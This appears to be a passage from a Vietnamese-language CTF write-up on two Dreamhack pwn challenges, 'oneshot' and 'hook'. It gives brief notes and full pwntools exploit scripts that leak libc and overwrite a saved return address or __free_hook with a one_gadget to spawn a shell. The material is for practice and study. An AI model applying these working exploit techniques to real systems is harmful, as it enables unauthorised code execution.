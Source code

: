 - nếu ta ghi tới save_rbp rồi p64(one_gadget) thì bị EOF do ta chưa kiểm tra thanh ghi rax có NULL hay không
- -ta chỉ cần thêm 8 byte thay vì 16 byte để tới save_rbp(tại tới save_rbp là thanh ghi rax sẽ chỉ định tới __libc_start_call_main+128)

script 

```
#!/usr/bin/python
from pwn import *

r = process('./oneshot', env = {'LD_PRELOAD':'./libc.so.6'})
r = remote('host1.dreamhack.games', 8257)
lib = ELF('./libc.so.6')

_leak = int(r.recvline().split(': ')[1], 16)
_libc = _leak - lib.sym['_IO_2_1_stdout_']

success('libc base = ' + hex(_libc))

one_shot = ['0x45216', '0x4526a', '0xf02a4', '0xf1147']
_one_shot = _libc + int(one_shot[3], 16)

payload = 'A'*0x18
payload += p64(0x0)
payload += p64(_one_shot)*2

r.sendlineafter('MSG: ', payload)

r.interactive()
```


12 . hook
-------


- bài này thuộc hook overwrite giống với bài fho , ta được ghi size thoải mái → bof
- ta thấy được hàm system , tuy nhiên vì bug double free nên chưa thực thi dc system là sẽ bị lỗi
- cần chú ý đến đoạn gán buf+1 cho buf ( buf ở đây là 8 bytes ) → ta có thể hookoverwrite để free(buf) thành system(’/bin/sh’) cho ta

![image](https://hackmd.io/_uploads/SyN3g8_Xkl.png)


script

```
#!/usr/bin/python3
from pwn import *
context.binary = exe = ELF('./hook',checksec=False)
libc = ELF('./libc-2.23.so')
#p = process()
p = remote('host3.dreamhack.games', 18058)
p.recvuntil(b'dout: ')
leak = int(p.recvline()[:-1],16)
print("leak stdou: ",hex(leak))
libc.address = leak - libc.sym._IO_2_1_stdout_
print("libc address: ",hex(libc.address))
p.sendlineafter(b'Size: ',str(100))
payload = p64(libc.sym.__free_hook)
payload += p64(libc.address+0x4527a)  -> có thể thay bằng system trong exe
p.sendafter('Data: ',payload)
p.interactive()
```
